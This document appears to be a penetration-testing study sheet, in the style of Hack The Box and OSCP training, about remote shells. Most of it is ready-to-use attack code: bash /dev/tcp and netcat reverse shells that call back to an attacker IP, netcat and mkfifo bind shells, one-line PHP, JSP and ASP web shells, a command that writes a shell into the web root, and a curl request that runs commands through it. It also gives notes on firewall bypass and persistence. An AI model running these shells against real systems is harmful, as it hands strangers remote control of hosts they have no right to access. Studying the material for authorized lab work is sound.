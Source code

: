 ## Types of shells
---
There are 3 main types of shells:
- Reverse Shells
- Bind Shells
- Web Shells

### Reverse Shells
<hr>

- It is the most common and easiest.
- How it works?
    1. We open a netcat listner on our attack machine.
    2. We execute a reverse shell command on the victim machine and connect it back to our listening port.
    3. Excute Bash or Powershell commands on the victim machine from our host.
- To open a nc listner:
    ```shell
    nc -nlvp 1234
    ```
    - l for listen mode
    - p for port
    - v for verbosity. So that we know when we receive a connection.
    - n to disable DNS resolution and only connect from/to IPs, to speed up the connection.
- To get a reverse shell, ***HTB version***:
    - Victim: Executes following on their machine
    ```shell
    bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
    ```
    - The IP and Port number are our attaching machine's.
    - Attacking machine:
    ```shell
    nc -nlvp 1234
    ```
    - More info here [HTB Shells](https://academy.hackthebox.com/module/77/section/725)
- Reverse shell, *OSCP Version*:
    - Victim: Sends their shell to attacker port
    ```shell
    nc -nv 10.10.10.10 1234 -e /bin/bash/
    ```
    or
    ```shell
    nc -nv 10.10.10.10 1234 -e cmd.exe
    ```
    - Attacker
    ```shell
    nc -nlvp 1234
    ```
---

### Bind Shells
---
- A host shell is binded to a port.
- We connect to that port from our attacking machine and execute commands.
- Bind shell, ***OSCP Version***:
    - Vicitim: Binds the shell or cmd to a port
    ```shell
    nc -nlvp 1234 -e /bin/bash/
    ```
    or
    ```shell
    nc -nlvp 1234 -e cmd.exe
    ```
    - Attacker: Connects to the port
    ```shell
    nc -nv 10.10.10.120 1234
    ```
    - We use the vicitm's IP and port here.
- Bind Shell, ***HTB Version***
    - Victim: 
    ```shell
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
    ```
    - Attacker
     ```shell
    nc -nv 10.10.10.120 1234
    ```
---
### Upgrading TTY
---
1. It is used for upgrading a shell to a fully functioning [TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat)

---

### Web Shells
---
- Web shell script is generally very short and easily memorized.
- Web shell would take our command through a GET request, execute it, and print it back to our screen.
- Common web shells scripts in common languages.
    - php
    ```php
    <?php system($_REQUEST["cmd"]); ?>
    ```
    - jsp
    ```jsp
    <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
    ```
    - asp
    ```asp
    <% eval request("cmd") %>
    ```
#### Uploading Web shells
- Web shell script needs to be placed into the remote host's web directory \(web root) to execute the script.
- For this, we need to identify where the webroot is. Default webroot for common servers:
    | ***Web Server*** | ***Webroot*** |
    |------------------|---------------|
    | Apache           | /var/www/     |
    | Nginx            | /usr/share/nginx/html/ |
    | IIS              | c:\inetpub\wwwroot\ |
    | XAMPP            | C:\xampp\htdocs\ |
- Check these directories to see which webroot is in use and then use echo to write out our web shell. For example, if it is a Apache server in a linux host:
```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```
<hr>

#### Accessing Web Shell
- Once we write our web shell, we can either access it through a browser or by using cURL. 
- We can visit the shell.php page on the compromised website from our previous script, and use ?cmd=id to execute the id command: <br>
<img src = "image-1.png">

- Using cURL:
```bash
TheKamaraju1@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
- We can use different commands to get different information
- Web shells **bypass** any firewall as it will not open a new connection on a port but run on the web port on 80 or 443.
- Even if the compromised host is rebooted, the web shell would still work as it is persistent.